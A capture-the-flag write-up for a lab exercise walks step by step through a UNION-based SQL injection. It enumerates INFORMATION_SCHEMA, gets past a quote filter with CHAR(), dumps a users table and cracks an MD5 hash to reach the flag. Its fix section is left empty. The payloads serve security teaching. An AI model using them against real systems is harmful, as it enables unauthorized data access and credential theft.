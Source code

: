 # Breach: SQL injection basic


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the members page.

> You'll notice, by entering random data, that the form is vulnerable to SQL injection.

> You guess that the SQL query is something like this:
> ```sql
> SELECT first_name_column, surname_column FROM some_user_table WHERE id_column={the payload you enter};
> ```

> 1. You know that the query is returning a 2 columns result.
> 2. You know that the verification is very poorly protected.

> Conclusion, we can explore the database !


#### Step 2:

Let's explore the database !

> We want to get only the wanted/interesting info, <br>
> So we'll search for a non-existing user id (for exemple `999`) <br>
> And we'll use the UNION operator to add a second query to the first one. <br>

> With the payload `999 UNION ...`, the query will look like this:
> ```sql
> SELECT first_name_column, surname_column FROM some_user_table WHERE id_column=999 UNION ...;
> ```

> There is a special part of the db called `INFORMATION_SCHEMA` that contains tables listing all the information about the database. <br>
> For this exercise, we'll use `INFORMATION_SCHEMA.TABLES` and `INFORMATION_SCHEMA.COLUMNS`, but there are many more interesting tables in `INFORMATION_SCHEMA` !

- List all the tables in the database:
```sql
999 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES
```


#### Step 3:

The table `users` looks interesting, let's see what's inside...

> The quotes (`'` and `"`) are filtered, but we can use the `CHAR()` function to bypass this filter.

- Translate `users` and `Member_Sql_Injection` to their ASCII values:
```sql
CHAR(117, 115, 101, 114, 115)
CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)
```

- List all the columns in the `users` table:
```sql
999 UNION SELECT COLUMN_NAME, COLUMN_TYPE FROM INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_SCHEMA=CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)
AND TABLE_NAME=CHAR(117, 115, 101, 114, 115)
```

> It gives us the culumns:
> | COLUMN_NAME  | COLUMN_TYPE  |
> | -----------: | :----------- |
> | user_id      | int(11)      |
> | first_name   | varchar(255) |
> | last_name    | varchar(255) |
> | town         | varchar(255) |
> | country      | varchar(255) |
> | planet       | varchar(255) |
> | Commentaire  | varchar(255) |
> | countersign  | varchar(255) |


#### Step 4:

Now we can get the flag from the `users` table.

- List every users:
```sql
999 UNION SELECT user_id, first_name FROM users
```

> Oh ! The user with the id `5` is named `Flag`, let's see if we can get the flag from his account.

- Get the flag:
```sql
999 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5
```

> We get:
> - Decrypt this password -> then lower all the char. Sh256 on it and it's good !
> - 5ff9d0165b4f92b14994e5c685cdce28

--- 

Another way:

- We can list everything:
```sql
999 UNION SELECT user_id, first_name FROM users
UNION SELECT user_id, last_name FROM users
UNION SELECT user_id, town FROM users
UNION SELECT user_id, country FROM users
UNION SELECT user_id, planet FROM users
UNION SELECT user_id, Commentaire FROM users
UNION SELECT user_id, countersign FROM users
```

> It gives us:
> | user_id | first_name | last_name | town      | country  | planet | Commentaire                                                                   | countersign                      |
> | :-----: | :--------- | :-------- | :-------- | :------- | :----- | :---------------------------------------------------------------------------- | :------------------------------- |
> | 1       | one        | me        | Paris     | France   | EARTH  | Je pense, donc je suis                                                        | 2b3366bcfd44f540e630d4dc2b9b06d9 |
> | 2       | two        | me        | Helsinki  | Finlande | Earth  | Aamu on iltaa viisaampi.                                                      | 60e9032c586fb422e2c16dee6286cf10 |
> | 3       | three      | me        | Dublin    | Irlande  | Earth  | Dublin is a city of stories and secrets.                                      | e083b24a01c483437bcf4a9eea7c1b4d |
> | 5       | Flag       | GetThe    | 42        |          |        | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |


#### Step 5:

- Decrypt the password (md5 lookup): `5ff9d0165b4f92b14994e5c685cdce28` -> `FortyTwo`

- Lower all the characters: `FortyTwo` -> `fortytwo`

- Sh256 on it: `fortytwo` -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


<br>


## How to fix it:

- ...


---

[[Back to main page](/#darkly)]
